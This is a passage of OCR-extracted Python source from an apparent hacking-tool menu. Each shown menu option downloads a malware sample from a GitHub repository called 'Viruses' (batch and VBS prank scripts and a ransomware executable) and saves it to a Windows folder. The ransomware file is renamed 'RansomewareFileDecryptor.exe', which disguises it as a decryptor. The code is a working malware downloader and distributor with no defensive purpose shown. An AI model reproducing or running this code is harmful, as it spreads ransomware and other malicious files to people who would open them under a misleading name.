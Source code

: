		elif menu3 == 6:
			print(""+G+"")
			chunk_size = 1024
			url = 'https://github.com/Ractomes/Viruses/blob/master/samples/cmd.bat?raw=true'
			r = requests.get(url, stream = True)
			size = int(r.headers['content-length'])
			filename = url.split('/')[-1]
			with open(filename, 'wb') as f:
				for data in tqdm(iterable = r.iter_content(chunk_size = chunk_size),total = size/chunk_size, unit = ' KB'):
					f.write(data)
			os.system("mv 'cmd.bat?raw=true' Windows/Cmd.bat")
			print(fun)#####done
			
		elif menu3 == 7:
			print(""+G+"")
			chunk_size = 1024
			url = 'https://github.com/Ractomes/Viruses/blob/master/samples/capslock.vbs?raw=true'
      r = requests.get(url, stream = True)
			size = int(r.headers['content-length'])
			filename = url.split('/')[-1]
			with open(filename, 'wb') as f:
				for data in tqdm(iterable = r.iter_content(chunk_size = chunk_size),total = size/chunk_size, unit = ' KB'):
					f.write(data)
			os.system("mv 'capslock.vbs?raw=true' Windows/Capslock.vbs")
			print(fun)#####done
			
		elif menu3 == 8:
			print(""+G+"")
			chunk_size = 1024
			url = 'https://github.com/Ractomes/Viruses/blob/master/samples/alay.vbs?raw=true'
			r = requests.get(url, stream = True)
			size = int(r.headers['content-length'])
			filename = url.split('/')[-1]
			with open(filename, 'wb') as f:
				for data in tqdm(iterable = r.iter_content(chunk_size = chunk_size),total = size/chunk_size, unit = ' KB'):
					f.write(data)
			os.system("mv 'alay.vbs?raw=true' Windows/Alay.vbs")
			print(fun)#####done
			
		elif menu3 == 9:
			print(""+G+"")
			chunk_size = 1024
			url = 'https://github.com/Ractomes/Viruses/blob/master/samples/ransomeware.exe?raw=true'
			r = requests.get(url, stream = True)
			size = int(r.headers['content-length'])
			filename = url.split('/')[-1]
			with open(filename, 'wb') as f:
				for data in tqdm(iterable = r.iter_content(chunk_size = chunk_size),total = size/chunk_size, unit = ' KB'):
					f.write(data)
			os.system("mv 'ransomeware.exe?raw=true' Windows/RansomewareFileDecryptor.exe")
			print(fun)#####done
			